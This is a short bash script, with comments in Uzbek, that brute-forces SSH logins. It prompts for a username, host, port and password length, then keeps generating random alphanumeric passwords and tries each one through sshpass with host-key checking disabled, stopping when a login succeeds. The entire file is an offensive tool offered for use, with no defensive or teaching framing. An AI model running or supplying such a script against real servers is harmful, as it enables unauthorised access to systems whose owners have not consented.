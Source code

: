 #!/bin/bash
# brute_force_ssh.sh
#This script asks the user to enter the SSH userName, IP address, port and password length. Then create random passwords and check them.

# Foydalanuvchidan SSH uchun foydalanuvchi nomi, IP manzil va portni kiritishni so'rash
read -p "SSH foydalanuvchi nomini kiriting: " USER
read -p "SSH serverining IP manzilini kiriting: " HOST
read -p "SSH serverining portini kiriting: " PORT

# Foydalanuvchidan parol uzunligini kiritish so'raladi
read -p "Parol uzunligini kiriting: " PASSWORD_LENGTH

# Parolni yaratish uchun foydalaniladigan belgilar to'plami
CHAR_SET="A-Za-z0-9"

# Parolni yaratish funksiyasi
generate_password() {
    local password=$(tr -dc "$CHAR_SET" </dev/urandom | head -c $PASSWORD_LENGTH)
    echo "$password"
}

# Parolni tekshirish funksiyasi
check_password() {
    local password=$1
    sshpass -p "$password" ssh -o StrictHostKeyChecking=no -o ConnectTimeout=5 $USER@$HOST -p $PORT "exit" &> /dev/null
    if [ $? -eq 0 ]; then
        echo "Parol topildi: $password"
        exit 0
    fi
}

# Dastur boshlanishida ma'lumotlarni ko'rsatish
echo "SSH foydalanuvchi nomi: $USER"
echo "SSH porti: $PORT"
echo "Parol uzunligi: $PASSWORD_LENGTH"
echo "Parollar quyidagi belgilar to'plamidan tanlanadi: $CHAR_SET"

# Tasodifiy parollarni yaratish va tekshirish
while true; do
    password=$(generate_password)
    echo "Tekshirilmoqda: $password"
    check_password "$password"
done

echo "To'g'ri parol topilmadi."

